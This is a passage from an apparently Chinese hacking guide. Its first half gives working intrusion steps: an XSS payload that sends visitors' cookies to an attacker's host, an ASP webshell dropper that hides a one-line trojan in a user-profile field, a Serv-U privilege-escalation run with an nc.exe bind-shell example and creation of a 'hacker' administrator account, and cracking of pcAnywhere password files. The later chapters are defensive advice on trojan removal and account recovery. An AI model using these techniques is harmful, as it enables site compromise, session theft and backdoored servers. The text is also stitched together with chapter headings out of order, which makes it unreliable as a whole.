将这行代码存为 PHP，上传到支持 PHP 的脚本上，它就可以工作了。程序传来的 Cookie 信息保存在文件`test.txt`中。另外我们需要一个 Cookie 并传入远程服务器，如：`<script>document.location=http://www.xxx.com/cookie.php=?document.cookie</script>`。将这段代码存为`cookie.asp`，上传到自己的空间里，远程提交代码是：`<script>document.location='http://www.xxx.com/cook.asp='+escape(document.cookie)</script>`。现在假设我们在一个网站留言处发现了跨站漏洞，就把上面的代码写在留言中。只要有人浏览我们发布的帖子，他的 Cookie 就会发在我们的空间并记录下来。我们只需要打开`cookie.txt`就可以看到保存的 Cookie 信息了，如图 88 所示。


# 第三章 黑客入侵常用技巧

在 Windows 下有几个工具对我们的入侵是有很大帮助的，因为不用上传其他的黑客工具来实现相同功能，这样做有一个很大的好处，就是可以避免工具被查杀。因此我们在实现某些功能时尽量使用系统自带的工具，一来方便，二来避免修改。

我们常常在 Windows 启动项写入批处理后想要服务器重启，在有权限上传一个重启工具固然好，不过很有可能被杀毒软件查杀，而 Windows 自身就带有重启工具`shutdown.exe`，我们只需要输入如下命令即可：

```
shutdown.exe -r -f -t 10 -c "请注意，服务器将在十秒后重启"
```

图 89 所示，是该工具的参数，执行后会出现一个提示框，倒计时的时间可以自行设置，时间到之后将会重启，如图 90 所示。


如果我们在渗透中需要重启同网中的其它服务器该怎么办？可以试试另一个命令`shutdown`，参数如图 91 所示。如果操作的服务器是域管理员，它能以这个身份重启域中的其它服务器。


我们就拥有了一个免费的VPN账号了，接下来是在本地建立一个VPN拨号程序，并用这个账号登录，便可以使用VPN了。

依次选择“控制面板”－“网络和Internet连接”－“网络连接”，点击“创建一个新的连接”，如图96所示。


点击“下一步”，在联网方式中选择第二项“连接到我的工作场所的网络”，如图97所示。


再点“下一步”，选择“虚拟专用网络连接”，如图98所示。


再点“下一步”填写公司名，这里可以随便填，就是让你给这个连接取个名字，如图99所示。


点“下一步”后选择“不拨初始连接”，如图100所示。


最后是输入VPN主机的IP或域名，上面那个网站的VPN服务器地址是66.150.105.18，如图101所示。


最后点击“完成”，在网络连接里多出一个连接，如图102所示。

双击后打开，输入刚才注册的账号和密码即可登录VPN，如图103所示。

现在我们再上网，就是在VPN的环境中了。


## 怎么利用MDR技术隐藏恶意ASP木马？

对`asp`后缀的数据库进行猎马来获得WEBSTELL的方法在其它章节我们介绍过，有些朋友也用这个方法来隐藏自己的`asp`马，当作后门来使用。

这种隐藏方法虽然有一定的进步（这种进步体现在web目录下不能多文件，而且还能保护管理员备份，通常数据库也会保留的），但毕竟不能逃过查杀工具。

常见的查杀助手来说，它检测`asp`后缀的文件，如图104所示。如果`asp`后缀的文件插入木马，这是肯定会被发现。


这一节的方法同样是用数据库隐藏木马，不同的是使用`mdb`后缀，这样可以避免查杀。我们知道，很多站点在用户注册时要填写资料，如：用户名、密码、邮箱、个人简介、电话、地址等，对应到数据库中都会相应的字段和值。我们可以在注册时，在个人简介的地方写入shell代码，然后修改站点上的文件，使用的时候就把个人简介中的shell代码部署到目录下，导出为WEBSLL的代码如下：

```asp
#INCLUDE FILE="conn.asp"
<%
if request("action")="nohack" then
    fname=request("fn")
    bname=request("bn")
    id=request("id")
    idvalue=request("idv")
    set fs=server.createobject("ADODB.recordset")
    sql="select "&bname&" from "&bname&" where "&id&"="&idvalue&""
    fs.open sql,conn,1
    if not fs.eof then
        content=fs(bname)
    else
        response.write("Nothing")
    end if
    set fso=Server.CreateObject("Scripting.FileSystemObject")
    set txtfile=fso.CreateTextFile(Server.mappath(fname))
    txtfile.writeline(content)
    txtfile.close
end if
%>
```

注意第一行的`#INCLUDE FILE="conn.asp"`，数据库文件名有时根据具体情况修改。将上面的代码加到站点的一个文件中，如：`admin.asp`。查看数据库，注册的名字`pctest`是在`student`表，其`id`值为20。用于存放一句话木马的字段是`realname`，如图105所示。

| `student` | `userid` | `userpwd` | `realname` |
|---|---|---|---|
| 19 | `admin` | `******` | 介绍 |
| 20 | `pctest` | `******` | `<%execute r...` |
| （自动编号） | | | |

# 第一章 黑客入侵篇

在IE中提交`http://www.xxx.com/nn.asp?action=nohack&fn=nohack.asp&tn=student&bn=realname&id=id&idv=20`，会在`nn.asp`相同目录下写入一个名为`nohack.asp`的WEBSLL，如图106所示。


解释一下：`nohack`是代码串`request("action")="nohack"`执行的参数，相当于生成的文件；`nn`是保存数据的表名，`bn`是保存数据的字段名，这里数据是以ID字段排列的，所以是`id`，`idv`是我们那条有木马信息的ID号，这里是20。

Serv-U是一种被广泛用的FTP服务器端软件，适合用户将任何一台PC设置一台FTP服务器，这样用户或者其他使用者就能使用FTP协议，通过同一网络上的任何一台PC与FTP服务器连接，选取文件或目录的复制、移动、创建和删除等。


Serv-U本地溢出提权已经是一个横行了近十年的漏洞，至今仍然成功率颇高，称Serv-U提权可以说是“居家旅行，必学漏洞”。

Serv-U提权的利用方法很简单，只需在提权工具里的欢迎界面输入本来没有权限执行的`cmd`命令即可，如图107所示。

```text
Serv-U > Local Exploit modify by al1fe

Usage: ServULocal.exe "command"
Example: ServULocal.exe "nc.exe -l -p 99 -e cmd.exe"
```

在WEBSLL中使用时，先通过上传功能将提权工具上传至目录下，并记录下保存的绝对路径，如图108所示，绝对路径是`f:\wwwroot\pctest000\wwwroot\servu.exe`。


# 第三章 黑客入侵常用技巧

接下来进入WEBSLL的`cmd`命令执行页面，在命令栏中输入刚才上传的提权工具的绝对路径，如`f:\wwwroot\pctest000\wwwroot\servu.exe`（提权程序文件名需完整一样，再用双引号括住你要执行的命令），如图110所示。


当看到下方的执行窗口出现如下字符时，说明提权命令执行：

```text
<221> Serv-U FTP Server v6.0 for Win ready.
>USER Administrator
<331> User name okay, need password.
**************
>PASS $...
<220> logged in, proceed.
**************
>SITE MAINTENANCE
**************
[+] Creating New Domain...
[+] Creating User
[+] Exploiting...
>USER hacker
>PASS hacker
[+] Executing: net user hacker 1234568 /add
```

检查账号是否建立成功，用`net user`命令查看，如图111所示。


```bat
f:\wwwroot\pctest000\wwwroot\servu.exe "net localgroup administrators hacker /add"
```

执行成功后如果服务器开启了远程桌面，就可以用`hacker`用户和`1234568`密码登录了；如果没有远程桌面，也可以自行执行其它命令。总之，有了`admin`权限，我们的黑客之路就很宽了。


USER权限这样就可以下载这个文件到本地进行破解，再通过Anywhere从本机登录服务器。

如何判断主机是否安装有Anywhere？一般安装了该软件的主机会打开5631端口，我们可以在WEBSLL上执行`netstat -an`查看是否打开了5631端口，如图112、图113所示。


在图113中，5631端口状态为`listening`，说明主机上安装有Anywhere，接下来就是访问保存文件的目录，下载文件到本地破解。

有一点请注意，保存密码的文件不是Anywhere的安装目录，而是位于安装盘的`Documents and Settings\All Users\Application Data\Symantec\Anywhere`目录下，如图114所示。


下载文件到本地就可以通过工具破解了。Anywhere的账号密码破解工具到处都有，可以通过百度搜索，常用的黑客工具中整合了这个功能，在“破解工具”这一项，如图115所示。


先将文件读取进去，然后点击“读取密码”即可破解，如图116所示，接着就可以得到的账号密码通过本机安装的Anywhere登录控制远程服务器。


在Windows2003中，由于`Documents and Settings\All Users\Application Data\`的默认权限已经被修改了，这个目录不再是everyone访问，一般很难再用此方法提权。不过，我们要学习的是这种利用服务器上重要程序的账号密码来提权的思路。


# 第四章 安全性能分析及处理

- 我是一家网站的维护人员，怎样才能避免我的网站被黑呢？
- 什么是组策略？它有什么作用？黑客是怎么让我的卡巴斯基过期的？
- 网站被入侵后如何清除黑客留下的后门？
- 我中了木马，应该怎么清除呢？
- 怎样使用综合类安全防护工具？
- 听说有手工查杀木马的方法，是如何操作的？服务器如何防范SQL注入？
- 我游戏账号总是被盗，请问怎么回事？
- 没有条件安装防火墙和杀毒软件，我该怎样防止账号被盗呢？
- 如何尽量防护计算机安全？
- 我安装了杀毒软件和防火墙，并且随时更新，为什么我还是会中木马？
- 我的QQ号被盗了，有没有什么办法能找回？

1. 我安装了杀毒软件和防火墙，并且随时更新，为什么我还是会中木马？
2. 我的QQ号被盗了，有没有什么办法能找回？
3. 我游戏账号总是被盗，请问怎么回事？我该怎样防止被盗呢？
4. 我中了木马，应该怎么清除呢？
5. 我是一家网站的维护人员，怎样才能避免我的网站被黑呢？
6. 什么是组策略？它有什么作用？
7. 听说有手工查杀木马的方法，是如何操作的？
8. 网站被入侵后如何清除黑客留下的后门？
9. 怎样使用综合类防护工具？
10. 服务器如何防范SQL注入？
11. 没有条件安装防火墙和杀毒软件，我该怎样防护计算机安全？
12. 黑客是怎么让我的卡巴斯基过期的？

我安装了杀毒软件和防火墙，并且随时更新，为什么我还是会中木马？这是因为你中的木马是最新的，杀毒软件还没有对其特征码进行定位，因此它不在杀毒软件的范围内；或者木马进行了防杀处理，比如用工具加壳或免杀等，如图1、2所示。


现在的木马智能性越来越高，在不断完善其功能、提高性能的同时，也不再单纯等待杀毒软件的更新，而是越来越多的采用攻守结合的防御方式。它们可以直接杀掉杀毒软件和防火墙进程，更有甚者直接破坏杀毒软件程序。每次杀毒软件和防火墙启动后，进程和右角图标都处于正常状态，但是并没有运行。这种破坏方式的危害性十分大，而且不容易发觉。判断杀毒软件和防火墙被摧毁需要一定经验。通常被破坏后，右下角的图标会有不正常，请注意观察。而且还会出现杀毒软件报错现象，这要充分重视。如果是在启动或运行杀毒软件时出现如图3所示的程序出错，要引起相当的警觉。


由于失去了正常的查杀功能，很长时间我们的计算机不会查出病毒（等你发现不正常现象时已经晚了），在在线升级时会提示“版本不对”等出错，这也是杀毒软件和防火墙被破坏的标志。当杀毒软件和防火墙已经被木马摧毁时，有主动和被动两种补救措施。

# 被动措施

- （1）使用不太常见的杀毒软件，它有可能被木马破坏。因为木马对杀毒软件进行破坏，和杀毒软件查杀木马都是采用“特征码”来定位目标。杀毒软件和木马居然是采用同一种思路（算法）来定位目标，这一点真是十分讽刺。如果你的瑞星杀毒软件会被木马破坏，我们可以下载“木马清除专家”或“Windows清理助手”等不太常见但是功能又强大的查杀工具来使用，如图4所示。


- （2）先卸载已经安装过的杀毒软件，然后再安装一次进行查杀。有一点极其注意，在整个安装过程中不要运行任何其它执行程序。这是因为木马去破坏杀毒软件时，有可能是采用类似蠕虫的技术，在执行其它程序时就会判断是否被感染。如果没有被感染就马上感染。但是第一次运行的程序无法无法感染的，我们可以利用这次机会对系统进行查杀。

# 主动措施

- （1）重新启动电脑进入安全模式查杀。方法为重启计算机，在进入自检画面的过程中按住F8不放，就会进入启动方式选项，如图5所示，选择“安全模式”即可。“安全模式”下计算机只加载维持系统运行的基本程序，所以许多木马通常是无法加载运行的，处于“睡眠”状态，查杀起来自然会容易一些。有些病毒采用的是自我保护手段，比如发现打开任务管理器后立即关闭等功能，也因为没有启动而无法发挥作用。

木马和病毒不仅感染电脑，还会破坏杀毒软件，本地的文件也可能被感染，都属于“不可信”的。这时通过第三方环境来杀毒，就能绕过病毒对我们电脑所作的破坏，并接受“治疗”。


以江民在线杀毒为例，URL是`http://online.jiangmin.com`，进入后提示下载插件，插件才能在线查杀，如图6所示。


插件下载并安装完后，在线查杀的操作和本地使用杀毒软件并无差别，要扫描的硬盘和扫描的范围（压缩文件、内存、邮件都选上），然后扫描即可，如图7所示。


操作方法和平时用启动盘启动电脑是一样的。首先开机进入 BIOS 设置（一般按 DEL 键），在里面将系统引导方式设为光驱或 USB 设备，然后保存设置并重新启动电脑。然后把杀毒软件启动盘（光盘版或 U 盘版）放进光驱或插上 U 盘，再次重新启动计算机后就进入了启动盘界面。


图 8

杀毒软件启动盘和平时的 Windows 系统启动盘差不多，只不过杀毒软件的启动盘还附带有杀毒功能，这种启动盘可以用杀毒软件自己生成。如图 9 所示，是金山毒霸的 U 盘启动盘，通过它启动计算机后即可杀毒。


图 9

（4）重新安装系统让电脑具有双系统，在无毒的 B 系统下查杀 A 系统。

有朋友说，启动盘里的系统一般都是字符界面，可是我只懂得图形界面的操作，怎么办啊？那么大家可以在一台电脑的其它硬盘分区上再安装一个操作系统，并让它作为紧急备用时使用。如图 10 所示，我们分别在 C 盘和 E 盘都安装了系统，当 C 盘的系统被感染后，可以用 E 盘的系统进入电脑进行处理。

当一台电脑安装了多系统后，在启动计算机时会出现如图 11 所示的选择菜单，选择你需要进入的那个操作系统就行了。

本文最后来解答一个疑问：为什么安装有防火墙也不能阻挡与外界的通信？这是因为某些木马与外界通信通常都会选用防火墙默认允许的端口，例如 80 端口。你浏览网站时，实际上就是访问网站服务器上的 80 端口，所以当你的机器出现访问 80 端口的请求时，防火墙会放行，不会提示你阻止。这样，许多木马也会设置成通过 80 端口去进行连接。有的木马是与其它能正常访问网络的进程绑定的，只要这个进程能够访问网络，那么被嵌入这个进程一部分的木马自然也能访问网络。

以上就是安装了杀毒软件和防火墙后仍不能阻挡一部分木马的原因，但这决不意味着杀毒软件和防火墙对于我们的计算机安全是无足轻重的，它们能帮我们维护 95% 的计算机安全。


# 2 我的 QQ 号被盗了，有没有什么办法能找回？

QQ号被盗是很多网民在网络生活中都有过的遭遇，因为缺乏必要的安全常识，以及现在盗号木马日益隐蔽，QQ号被盗的可能性几乎出现在我们每个人身上。即便笔者这样具有一定网络安全专业知识的人，也不能说百分之百的避免账号被盗。因为当一款盗号木马刚刚问世时，或者被人为修改成免杀后，其威胁度更高。

网上也不断有好事者专门制作此类“免杀”木马进行发布，使得门槛极低就能轻易获得，如图 12 所示。


杀毒软件在没有获得该木马特征码期间对它几乎束手无策，如果十分不幸遇上了未能被查杀的木马，是谁都会中的。正是“木马面前，人人平等”。

QQ号被盗后，首先应该做的是通知重要的亲友，以防 QQ 号被用来进行诈骗，并将 QQ 目录下你的 QQ 号对应的目录文件进行备份，如图 13 所示。


因为那里有你的资料、聊天记录和好友，万一无法找回时可以用它来恢复。找回密码前有一点请大家注意：**在找回密码后，不要马上用找回的密码登录，因为此时电脑里的木马还没有清除，立刻登录 QQ 可能会二次被盗。**

QQ号被盗了，首先恢复的办法是用密保找回密码。打开 QQ，点击密码输入框右边的“忘了密码”，如图 14 所示，就进入“密保找回 QQ”网页。


也可从网址 `https://account.qq.com/cgi-bin/showMain` 进入密码找回页面。如果你填写过比较完整的密码保护，就选择“自助找回”，这样能比较快地找回；如果没有填写完整的保护资料或者忘掉了，只能通过“账号遗失”的方法了，如图 15 所示。

点击图 15 中的“账号遗失”，输入 QQ 号和验证码并确定，如图 16 所示。


# 第四章 安全性能分析及处理

“密码方式”中，可以选择将密码发送到指定的邮箱。如果你的原始邮箱丢失，应该选择重新指定邮箱。重新指定邮箱需要输入注册时的证件，如果你注册时是乱填的，那么很遗憾，无法指定邮箱。

“手机号码”和“验证号码”这两栏，当你对密保答案模糊而多次输入失败时，申请会被冻结，这时你可以通过手机码突破冻结继续找回。密保答案正确后，新的密码就会发往指定邮箱。对于没有密保或者密保答案已经记得的情况，只能通过一种更为复杂的办法——找回密码。在“密码找回指南”页点击“忘记了吗？（只能通过手机找回）”，如图 17 所示。


这时会出现一张项目很多的表单让你填写（这就是为什么比找回还要复杂），其中有真实姓名、手机、邮箱、登录时间等。请注意全部按真实的填写，特别是邮箱要必填，因为在下一步，系统会把验证码发往你的邮箱。你在填入了验证码之后，才能进一步操作。表单填写完毕点击“下一步”，你需要输入邮箱中收到的验证码，如图 18 所示。


然后填入三个曾使用过的 QQ 密码，可是能否成功的关键。特别说明，时间越久，成功的可能性越大。下一步是填写原来 QQ 上的几个好友，其他项按要求填完，然后点击“下一步”，重设新的保护资料。最后点击“完成”，找回的过程就结束了。系统会为你的请求生成一个回执号，请记录好，在人工查询时非常需要。

当你的申请有了处理结果后，会以邮箱或短信通知你，还可以通过申请页面上方“找回查询”下的“即时查询结果”（输入回执号），如图 19 所示。


最后要解答一个读者十分关心的问题：QQ 被盗后有没有办法通过黑客手段寻回？以个人经验来看，这是很难的！被盗的 QQ 一般不会上线，而且盗取 QQ 的人具备较高的安全常识，一般的技术不会中招的。而当你掌握了相当高的网络入侵技术时，这类问题也不会困扰你了。

# 3 我游戏账号总是被盗，请问怎么回事？我怎样防止账号被盗呢？

游戏账号被盗，除了生活中认识的人作案，如将账号给一些不该相信的人造成的被盗，其它账号丢失的绝大部分原因是因为中了盗号木马。如果木马运行在我们的电脑中，就好像身后有个人盯着我们输入密码一样，账号的安全没有任何保障。

有的朋友对木马的认识很肤浅，认为只有被传到自己的电脑上、被自己运行才会中木马。常听见很多人知道账号是由木马盗窃之后很吃惊地说：“不可能啊！我没有运行任何别人发来的程序！”这里我要明确地告诉大家，这个观点是错的。

实际上中木马的过程并不需要你运行，木马的传播也不是发送到你的机器上让你运行这么愚蠢。如果一个网站被人放置了木马（黑客术语称为“挂马”），那么你在浏览这个网站时，木马就会神不知鬼觉地从这个网站下载到你的计算机上运行，这个过程不用让你进行任何操作，完全是毫不知情的。

在浏览器下方的状态栏会显示正在加载的页面，如图 20 所示，如果发现浏览某网站在加载某 URL 同时 IE 卡住，最好能马上关闭。

img/97184081255678b9fe8c5372df8c69f7_165_1.png)

通过网页传播木马是最常见的手法，还可以通过其他途径传播，比如网上下载的电影。有些电影不是会弹出一个广告页面吗？如果这个页面被改成木马网址并把屏幕长宽都改为 0，这就成了一种隐蔽的传马。

另外，通过邮件也能传播木马。在邮件中带木马地址这些属于比较高级一点的社会工程，很有想象力，如图 21 所示。WORD 文档都能用来。

img/97184081255678b9fe8c5372df8c69f7_165_2.png)

# 第四章 安全性能分析及处理

木马的危害虽然可怕，传播的方式虽然隐蔽，但不代表我们不能防御。有一个小技巧在一定程度上有用，就是在输入密码时，不要直接在框输入你的密码，先打开一个记事本，再粘贴到密码框。这样可以防止一部分木马，但是遇到高级木马就不行。低级木马用的是键盘记录，工作原理是监视窗口，将用户点击的字符记录下来。而高级木马采用的是内存截取。

所谓内存截取，就是利用 QQ 号在提交到服务器的过程中，其数据存放在内存中的。那么内存截取只要找到存放的地址，读出其中的信息。对于内存截取类的木马，有一部分查毒软件提供了防护，比如 360 安全卫士、瑞星、金山等，这里以 360 安全卫士进行说明。

img/97184081255678b9fe8c5372df8c69f7_166.png)

然后我们选中“检查”，保险箱会对病毒库进行检查，如图 24 所示。检查完成后，当内存截取试图访问链接时，就会出现如图 25 的提示。

img/97184081255678b9fe8c5372df8c69f7_167_0.png)

img/97184081255678b9fe8c5372df8c69f7_167_1.png)

img/97184081255678b9fe8c5372df8c69f7_167_2.png)

杀毒软件的作用不等于防火墙！另外请定期扫描自己的电脑，清除木马。杀毒软件的病毒库也必须即时更新，否则可能出现病毒库没有更新而造成无法检测的情况。不要运行陌生人传给你的 `exe`、`cmd`、`com`、`bat` 等后缀文件。最好让本机安装系统还原，定期进行还原操作。

做到以上的习惯可以避免大部分的中概率，但是世界上没有绝对安全，任何安全都是相对的，99% 的避免发生不代表就不会发生。

### 我中了木马应该应该清除呢？

**切记！中了木马后的第一步就是一定要断网下线，不要让自己的计算机还在网上，这一点是相当重要的，因为这时木马的主人正在监视着你的一一动。**

如果是用程序进行拨号上网的，双击屏幕右下角的拨号软件图标调出程序界面，点击“注销网络”即可下线，如图 27 所示。有些朋友上网是路由内置拨号，那最好先关机，再把网线拔出。

img/97184081255678b9fe8c5372df8c69f7_168_0.png)

我们心里要有底，如果能被杀毒软件报警的木马，几乎肯定是能被清除的。还有一手最后的杀手锏，实在不行格盘重装一次系统，绝对肯定能解决中木马的问题。了解了这两点，就不要太慌张，保持好的心态才能冷静的处理问题。

首先，要保证自己的杀毒软件是最新的病毒库，然后看一下杀毒软件的报警，是报的木马、病毒、蠕虫，还是恶意程序？

报告中含有 PSW 样的是盗取账号的木马；含有 Backdoor 样的是后门，远程控制类工具；含有 Rom 样的是具有 EXE、HTML、ASP 等文件的蠕虫；含有 DownLoad 样的是下载器；含有 HackTool 样的是黑客工具……

接下来简单介绍一下几种常见的处理思路：

- 先谈盗号木马类，如果报警是这种，应该轻松。特别是在访问某个网站时突然出现的报警，这种木马是被挂上的。

- 蠕虫是个讨厌的东西，它会大量占用系统资源和网络资源，延时很高（就是俗称的很卡）。清除的难在于只要有一点没干净，马上重新感染。在断网之后，进入安全模式下查杀，因为安全模式只会以自己的几个程序运行。

- 另外，建议记下病毒名称，去 Google 一下有没有相关资料，才能战胜它，如图 28 所示。

img/97184081255678b9fe8c5372df8c69f7_168_1.png)

img/97184081255678b9fe8c5372df8c69f7_169_0.png)

以上就是作为一个菜鸟用户在面对机器中木马时所能做的，通过灵活的使用杀毒软件，清除木马也不是件事。

请注意以下几点：

- 第一，如果是中的木马，为了省事可以仅检测安装盘，但是中了蠕虫一定要全面扫描每一个分区。

- 第二，在没有进行硬盘扫描前，不要打开任何程序。因为蠕虫的一个显著特点就是感染力强，只要有一处还没干净就可能重新感染。

- 三，在全部硬盘查杀完成后，不要关掉杀毒软件，而是在最近时期保持杀毒软件在实时监控状态。因为被感染过的文件已被查杀，木杀相对难，其隐蔽性高、关联性强（可以与 `EXE`、`TXT` 等多种格式关联）。采用前面几点相结合的处理方式，比如先看杀毒软件报的木马类型（现在的木马大部分是灰鸽子、黑洞、上兴等），再从网上下载专杀工具尝试清除。如果是变种无法完全清除，就用对付蠕虫的方法，全盘查杀并打开防火墙一直实时监控，让守护进程被发现出来。

# 5 我是一家网站的维护人员，怎样才能避免我的网站被黑呢？

在回答这个问题之前，不得不告诉大家一个现实，就是世界上的绝对安全是不存在的。大家可以假设，如果有一种安全系统是绝对安全的，那么这套系统的发明人将比微软公司的创始人比尔·盖茨还富有。

任何系统都是有漏洞的，这个观点不用怀疑，绝对有漏洞！没有漏洞只是现在还没有发现。

# 第四章 安全性分析及处理

现在想要把安全一步到位做好，然后高枕无忧是不可能的，做网络安全是一个连续不断更新的事。现在安全的系统和配置，将来未必就是安全的，如图 30 所示。具体到如何避免网站被黑的风险上，我想从主观和客观两方面谈谈个人的感受。

img/97184081255678b9fe8c5372df8c69f7_170_0.png)

## 主观方面，对于管理及本身，人的因素。

作为网站的管理员，可以是一个技术并不出众的人，但必须是一个勤快的人。软件的及时更新、脚本系统补丁的升级、关注最新安全事件、微软系统漏洞公告、定期的安全检测……这些都需要大量精力来进行。Windows 的日志记录了入侵者的所有动作，但是管理员会有好的习惯和耐心去阅读吗？如图 31 所示。

img/97184081255678b9fe8c5372df8c69f7_170_1.png)

定期的日志检测所需要的绝不是技术，而是责任心。

在“开始”菜单中单击“运行”命令项，输入`gpedit.msc`并确定即可打开组策略，如图33所示。这里打开的是本机组策略，它还支持网络编辑功能。


图33

- (1) 打开Microsoft管理控制台（可在“开始”菜单的“运行”对话框中直接输入`MMC`并回车）

- (2) 在“文件”菜单上单击“添加／删除管理单元”，如图34所示。


图34

- (3) 在“独立”选项卡上单击“添加”。

- (4) 在“可用的独立管理单元”对话框中单击“组策略”，然后单击“添加”。

- (5) 在“选择组策略对象”对话框中单击“浏览”查找所需的组策略对象。

- (6) 单击“完成”－“关闭”－“确定”，组策略管理单元即打开要编辑的组策略对象。

打开组策略编辑器后，有“计算机配置”和“用户配置”两项。“计算机配置”下的改动应用于所有用户，“用户配置”的改动是应用于当前登录的这个用户。

在“计算机配置”和“用户配置”下，分别有“软件设置”、“Windows设置”、“管理模板”等几项，这些是把模板进行的分类，相应的选项可以修改相对的键值，下面我们就来修改一些常见的配置。


比如我们要对桌面系统图标进行编辑，隐藏桌面上的“网上邻居”和“Internet Explorer”图标。进入“组策略控制台”，依次选择“用户配置”→“管理模板”→“桌面”。在右侧窗格中将“隐藏桌面上的网上邻居”和“隐藏桌面上的 Internet Explorer”两个策略启用，如图35所示。

如果要隐藏桌面上的所有图标，只需将“隐藏桌面上的所有项目”启用，如图36所示。

启用了“删除桌面上的我的文档”和“删除桌面上的我的电脑”两个选项以后，“我的电脑”和“我的文档”将从电脑面上消失；同样，如果要让“回收站”图标消失，只需将“从桌面删除回收站”策略启用。

如果要禁用“Internet 选项”，进入“组策略控制台”，依次选择“用户配置”→“管理模板”→“Windows 组件”→“Internet Explorer”→“控制面板”，打开右窗格中的“禁用”并设置为“启用”即可，如图37所示。


我们打开“Internet 选项”控制面板，会发现“常规”项目没有了，如图38所示。这样可以按照上面的方法关掉其他的项。

在组策略中恢复病毒时常常被禁用的注册表。打开“组策略”，依次选择“用户配置”→“管理模板”→“系统”，双击右侧窗口中的“阻止访问注册表”，如图39所示。在弹出的窗口中选择“已禁用”，“确定”后再退出“组策略”即可解锁注册表。

组策略能实现数百种设置，大家可以具体查看一下自己电脑的情况。组策略对于维护自己的计算机安全，配置相应的环境都是十分重要的手段。


## 听说有手工查杀木马的方法，是如何操作的？

木马当然能手工查杀，但是建立在对系统和木马运行原理十分的基础上，然后再借助一些工具，有经验的朋友就可以实现手工杀毒。对于接触计算机不深的人来说，手工查杀木马显得稍难，因为各种木马的情况也是不同的，需要一定的经验。以下通过一系列常见的手工查杀木马思路，给大家讲解一下。

手工查杀的思路一般是：去除木马保护机制——查找木马加载的地址——清除木马启动项。

现在的木马比较厉害，带有保护机制，例如隐藏木马程序、禁止EXE运行、锁死注册表（如图40所示）、自动关闭进程管理器等，有的在正常模式运行的操作系统中有效，在安全模式下失效，因此手工查杀给大家第一个建议是：一定要进入安全模式。


当然，首先我们要将注册表解锁，因为注册表锁定不会因为进安全模式而恢复。恢复注册表有两种办法：第一种是下载“金山毒霸IE修复工具”，然后选择“取消注册表工具的禁用就行就行，如图41所示。


第二种是直接把恢复注册表的代码保存为`1.reg`文件，然后导入即可解除禁用，代码如下：

```reg
REGEDIT4
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

解决了注册表禁用的问题，该进入安全模式杀毒了。进入安全模式的方法是：启动计算机，在系统进入启动画面前按下F8键（或者在启动计算机时按住Ctrl键），在出现的启动选项菜单中，选择“Safe Mode”或“安全模式”，如图42所示。进入安全模式时可能会比正常进入系统需要的时间长一些，稍等一会就好了。


大部分木马程序都会将自身文件属性设为“隐藏”或“系统”，在默认的情况下，系统是不会显示出带有“隐藏”和“系统”属性的文件，所以需要按如下方式。


接着再讲到系统目录，现在就能看到多了一些半透明效果的文件，这些就是带有“隐藏”和“系统”属性的文件，如图44所示。木马程序通常藏身在`C:\Windows`、`C:\Windows\System32`、`C:\Windows\System\temp`等目录中，大家可以在这些看看有没有异常文件。例如`C:\Windows`目录下生成`*_Hook.dll`（字符是随机的，默认是`Server_Hook.dll`）。


但是请注意，这些目录下面的文件不能乱删，以免引起系统的崩溃。当发现可疑文件时，一定要先到桌面，按住DEL+CTRL+ALT组合键调出“任务管理器”，在进程中查看异常进程。如果看不出哪个文件是正常的，下面都是Windows的常见进程及其区别：

| 进程名 | 描述 |
| :--- | :--- |
| `smss.exe` | Session Manager |
| `csrss.exe` | 子系统进程 |
| `winlogon.exe` | 管理登录 |
| `services.exe` | 很多系统服务 |
| `lsass.exe` | 管理安全策略以及启动ISAKMP/Oakley（IKE） |
| `svchost.exe` | Windows文件保护 |
| `SPOOLSV.EXE` | 将文件加载到内存以便稍后打印 |
| `explorer.exe` | 资源管理器 |
| `task.exe` | 托盘区域 |
| `mstask.exe` | 允许程序在指定时间运行 |
| `regsvc.exe` | 允许远程注册表操作，对应系统服务 |
| `tftpd.exe` | 实现TFTP标准，该标准不要求用户名和密码 |
| `llssrv.exe` | 证书记录服务 |
| `ntfrs.exe` | 在多个服务器间维护目录内容同步 |
| `lx.exe` | 控制用来远程存储数据的载体 |
| `locator.exe` | 管理RPC名称数据库 |
| `clipsrv.exe` | 支持“剪贴簿查看器”，以便从远程剪贴簿查阅 |
| `msdtc.exe` | 微软分布式协调程序，该进程调用Microsoft Web Server和Microsoft SQL Server，该服务用于管理多个服务器 |
| `grove.exe` | 扫描零备份（SIS）卷上的重复文件，并将重复文件指向一个数据点，以节省空间（对NTFS文件系统有用） |
| `snmp.exe` | 包含代理程序，可以监视网络设备的活动并且向网络控制工作站汇报 |

如果通过查询发现“任务管理器”的“进程”中有非法进程在运行，可以在进程名上点击右键，选择“结束进程树”停止正在运行的进程，如图45所示，否则会因为该进程正在运行而无法删除。


然后找到该进程文件所在的目录，把该进程文件删除掉；也可以重启电脑后进入安全模式，在该进程文件没有被加载的情况下进行删除。删除掉木马原文件后，还需要把木马在系统中加载运行的地方删除。正是因为被加载到系统一起运行，所以每次重启就会使木马运行，当去掉加载项后，即便木马的原文件没有删除，也会无法自动加载运行，所以这一步是手工查杀的重点。

简单的木马会在`MSCONFIG`的启动配置里加载。点击“开始”－“运行”，输入`MSCONFIG`后回车，在弹出的“系统配置实用程序”界面中选择“启动”标签页，我们可以看到在系统启动时可以加载的程序列表。

大部分的木马藏身于注册表启动项，下面是常见的注册表启动项，木马可能藏在其中进行加载：

- `Load` 注册键：介绍该注册键的资料不多，实际上它能够自动启动程序。位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows\load`。

- `Userinit` 注册键：位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`。这里能够使启动时初始化程序，通常该键下面有一个`userinit.exe`，用逗号分隔的多个程序，例如`explorer.exe`。

- `Explorer\Run` 注册键：和`load`、`Userinit`不同，`Explorer\Run`键在`HKEY_CURRENT_USER`和`HKEY_LOCAL_MACHINE`都有，具体位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run`和`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run`。

- `RunServicesOnce` 注册键：`RunServicesOnce`用来启动服务，启动在用户登录之前，而且优先于其他注册键启动的程序。位置：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce`和`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServicesOnce`。

